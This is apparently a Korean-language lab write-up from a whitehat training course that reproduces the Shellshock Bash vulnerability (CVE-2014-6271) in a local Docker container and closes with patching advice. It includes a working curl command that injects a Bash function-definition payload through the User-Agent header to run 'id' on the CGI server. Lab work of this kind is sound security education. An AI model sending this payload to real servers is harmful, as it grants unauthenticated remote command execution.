

# [CVE-2014-6271] GNU Bash 환경변수 원격 코드 실행 취약점 (Shellshock)

> 화이트햇 스쿨 4기

<br/>

## 요약

- GNU Bash 쉘이 환경 변수에 저장된 함수 정의를 파싱할 때 발생하는 로직 결함.
- 함수 선언(`() { :; };`) 이후에 악의적인 후속 문자열(명령어)이 연이어 들어올 경우, 이를 검증하지 않고 쉘 내부에서 그대로 실행해버리는 취약점.
- 인증 없이, 원격에서 HTTP Request으로 서버의 최고 권한 쉘을 획득할 수 있어 치명적.
- 시스템 기본 쉘이 패치되지 않은 구버전 GNU Bash(4.3 이하)를 사용하고, 웹 서버(Apache 등)가 사용자 요청 정보(User-Agent 등)를 환경 변수로 변환해 CGI 스크립트를 호출하는 환경이어야함.

<br/>

## 환경 구성 및 실행

### 1. 환경 구성 및 서버 실행
터미널에서 해당 폴더로 이동한 뒤 아래 명령어를 실행하여 테스트 환경을 빌드하고 구동.
```bash
# 컨테이너 빌드 및 백그라운드 실행
docker-compose up -d --build
```
- **접속 주소 : `http://localhost:8080/shock/victim.cgi`

### 2. 공격 실행
로컬 터미널에서 `curl` 를 사용해 `User-Agent` 헤더에 Bash 함수 선언 플래그와 시스템 명령어(`echo; /usr/bin/id`)를 주입하여 전송.
```bash
curl -H "User-Agent: () { :; }; echo; /usr/bin/id" http://localhost:8080/shock/victim.cgi
```

<br/>

## 결과

공격 페이로드가 포함된 헤더를 수신한 아파치 서버가 내부 `victim.cgi`를 처리하는 과정에서 취약점이 동작했습니다. 그 결과, 웹 서버 구동 계정인 `www-data` 권한으로 OS 명령어(`id`)가 실행되어 타겟 시스템의 권한 정보가 공격자 터미널에 성공적으로 반환된 것을 확인.



<br/>

## 정리

- 본 취약점은 사용자의 외부 입력값이 시스템 쉘과 직접 맞닿을 때 발생하는 파급력을 단적으로 보여주는 사례임.
- 운영체제 벤더사에서 제공하는 보안 패치가 반영된 안전한 버전의 Bash 쉘로 즉각적인 업데이트 필요.
- 외부 입력값을 환경 변수로 직접 매핑하는 레거시 CGI 모듈 사용을 중단하고, 최신 웹 프레임워크 아키텍처를 도입하여 쉘과의 직접적인 상호작용을 원천 차단.
